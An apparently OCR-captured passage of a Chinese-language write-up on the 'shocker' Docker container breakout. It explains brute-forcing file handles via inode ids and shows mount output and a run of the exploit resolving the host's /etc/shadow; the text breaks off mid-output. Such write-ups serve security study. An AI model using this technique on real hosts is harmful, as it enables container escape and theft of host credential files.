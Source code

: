 ```bash
$ docker run -it --rm ubuntu
root@455cdb8d5cf8:/# mount
...
/dev/sda5 on /etc/resolv.conf type ext4 (rw,relatime,errors=remount-ro)
/dev/sda5 on /etc/hostname type ext4 (rw,relatime,errors=remount-ro)
/dev/sda5 on /etc/hosts type ext4 (rw,relatime,errors=remount-ro)
...
```

对于2，需要一些背景知识支撑。

`file_handle`结构体中的`f_handle`域前4个字节恰好是对应的inodeid（注意大小端序）。而根目录`/`的`f_handle`为`02 00 00 00 00 00 00 00`。

在获取了访问`/`的权限后，可以考虑逐层爆破的方式。遍历该层文件夹下所有的文件，与需要读取的文件名进行比较，如果找到则获取其inodeid以减少爆破空间的大小。

# 利用结果

```
root@53ae937a33e9:/# ./shocker
[***] docker VMM-container breakout Po(C) 2014             [***]
[***] The tea from the 90's kicks your sekurity again.     [***]
[***] If you have pending sec consulting, I'll happily     [***]
[***] forward to my friends who drink secury-tea too!      [***]
[*] Resolving 'etc/shadow'
[*] Found snap
[*] Found usr
[*] Found proc
[*] Found flag
[*] Found tmp
[*] Found home
[*] Found .
[*] Found dev
[*] Found .dockerinit
[*] Found mnt
[*] Found sbin
[*] Found root
[*] Found bigfile
[*] Found lib64
[*] Found boot
[*] Found lost+found
[*] Found bin
[*] Found swapfile
[*] Found lib32
[*] Found run
[*] Found cdrom
[*] Found etc
[+] Match: etc ino=3145729
[*] Brute forcing remaining 32bit. This can take a while...
[*] (etc) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0x01, 0x00, 0x30, 0x00, 0x00, 0x00, 0x00, 0x00};
[*] Resolving 'shadow'
[*] Found .
[*] Found ..
[*] Found anacrontab
[*] Found .pwd.lock
[*] Found avahi
[*] Found ifplugd
[*] Found PackageKit
[*] Found bash_completion
[*] Found gtk-3.0
[*] Found xdg
[*] Found geoclue
[*] Found sysstat
```
